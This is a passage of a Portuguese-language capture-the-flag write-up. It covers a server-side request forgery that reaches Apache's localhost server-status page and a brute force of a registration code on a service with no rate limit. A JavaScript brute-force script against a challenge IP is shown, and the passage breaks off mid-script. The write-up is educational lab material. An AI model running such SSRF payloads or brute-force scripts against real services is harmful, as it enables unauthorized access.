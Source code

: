 **Flag**

ZUP-CTF{N4d4_p0d3_S3r_0CULT4DO_Fr0m_4_h4X0R}

## Server Status
**Falha**

Permitir que o usuário faça requisições através do servidor pode ser perigoso pois libera
acesso a redes locais, privadas ou requests com o IP do host.

**Solução**

Ao identificar pelos headers que era um server Apache, fiz um request para o endpoint
de status de uma extensão comum. Ela costuma permitir requests vindos somente de
127.0.0.1, portanto, não conseguiríamos acessar externamente.

Inserindo `http://localhost/server-status` a flag foi retornada.

**Flag**

ZUP-CTF{TH3_S_3r_v3r_is_UP}

## Bypass login

**Falha**

Serviços que têm OTPs/PINs ou outras "senhas" curtas devem
implementar alguma forma de rate-limit (quando
autenticados) ou anti-spam como CAPTCHAs, Hashcash, etc.
Caso contrário, usuários maliciosos conseguem, em poucas
horas, tentar todas combinações possíveis (com scripts ou
softwares desenhados para esse propósito) e acabar
encontrando a correta.

**Solução**

Fiz um script simples em JavaScript para tentar
combinações sequencialmente e rodei processos com 5
workers cada, em poucos minutos já tinha a chave. Para
identificar a correta, comparei o tamanho da resposta com
o tamanho da resposta de erro.

Após isso, bastou usar a chave para registrar e logar.
Após o login, lá estava a flag!

Script:
```JavaScript
const fetch = require("node-fetch");
const ERROR_LENGTH = 1207;

/**
 * Attempts to register using `code` and returns the response body length
 * @param {string} code Registration code
 */
function register(code) {
    return fetch("http://3.12.74.128:8008/register", {
    "headers": {
      "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
      "accept-language": "pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7",
      "cache-control": "max-age=0",
      "content-type": "application/x-www-form-urlencoded",
      "upgrade-insecure-requests": "1",
      "cookie": "Attempts=2"
    },
    "referrer": "http://3.12.74.128:8008/register",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "email=test%40mail.me&password=password&code=" + code,
```